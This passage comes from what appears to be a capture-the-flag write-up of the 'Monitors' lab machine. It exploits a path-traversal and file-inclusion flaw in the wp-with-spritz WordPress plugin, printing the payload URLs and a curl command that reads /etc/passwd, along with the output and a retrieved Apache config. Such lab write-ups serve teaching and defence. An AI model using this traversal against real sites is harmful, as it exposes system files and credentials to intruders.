 ```

/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=http(s)://domain/exec

```

Starting with the first one, I’ll confirm I can grab `/etc/passwd` from Monitors:

```

oxdf@parrot$ curl -s http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...[snip]...
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
Debian-snmp:x:112:115::/var/lib/snmp:/bin/false
mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false

```

marcus and root look like the only users with shells.

There’s not a ton I can do with the second remote include, as PHP is calling `file_get_contents`, so even if I pass in PHP code, it won’t be executed. If this were a Windows server, I could try to get something over SMB and collect the NetNTLMv2 challenge.

#### Enumeration

With access to the file system, I’ll look at various files that might contain useful information. I tried to get `/var/www/html/wp-config.php` to get the DB password and username, but nothing came back. That could be the wrong directory.

To find where on the file system the websites are rooted, I’ll look into the Apache `sites-enabled`. The default is `/etc/apache2/sites-enabled/000-default.conf`, and that works:

```

# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf

<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin admin@monitors.htb
        DocumentRoot /var/www/html
        Redirect 403 /
        ErrorDocument 403 "Sorry, direct IP access is not allowed. <br><br>If you are having issues accessing the site then contact the website administrator: admin@monitors.htb"
        UseCanonicalName Off
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
```